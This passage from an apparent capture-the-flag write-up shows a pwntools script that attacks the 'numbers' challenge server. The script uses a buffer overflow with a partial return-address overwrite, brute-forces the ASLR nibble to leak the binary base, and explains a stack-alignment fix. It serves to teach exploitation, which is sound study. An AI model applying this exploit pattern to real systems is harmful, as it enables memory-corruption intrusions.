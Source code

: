 ```python
```

The setup above is the final version, but before we can get there, we'll start with our local libc block, then switch to the challenge libc after discovered.

`binary.symbols['main']` and `binary.symbols['entry']` add symbols to the stripped `./numbers` symbol table.  More on this below.


### Hard Path: Brute force base process address

```python
while True:
    #p = process(binary.path)
    #p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH': libpath})
    #p = process([binary.path], env={'LD_LIBRARY_PATH': libpath})
    p = remote('numbers.fword.wtf', 1237)

    p.sendafter('do you have any number in mind ??\n','-1')
    payload  = 0x48 * b'A'
    payload += p16(binary.symbols['entry'] & 0xffff)
    p.sendafter('are yo sure ??\n',payload)

    _ = p.recv(0x48)
    if _ not in 0x48 * b'A':
        p.close()
        continue
    _ = p.recv(6)
    try:
        entry = u64(_ + b'\x00\x00')
    except:
        p.close()
        continue

    log.info('entry: ' + hex(entry))
    binary.address = entry & (2 ** 64 - 0x1000)
    log.info('binary.address: ' + hex(binary.address))
    log.info('entry: ' + hex(binary.sym.entry))

    try:
        p.sendafter('do you have any number in mind ??\n','-1')
        break
    except:
        p.close()
        continue
```

This loop essentially brute forces the 4th nibble.  Or better put, assumes the 4th nibble is `0` and just keeps trying until it does not fail.  ASLR will eventually (1 in 16) have `0` as the 4th nibble.  This works pretty quickly (less than 30 seconds).

Take note, that we're trying to _return_ to `entry` (`main+1`) vs. `main`.  This is to fix a [stack alignment](https://blog.binpang.me/2019/07/12/stack-alignment/) issue with `printf`.  The +1 skips the initial `push rbp` at the beginning of `main`.  Without this, `printf` will segfault in `vuln`.
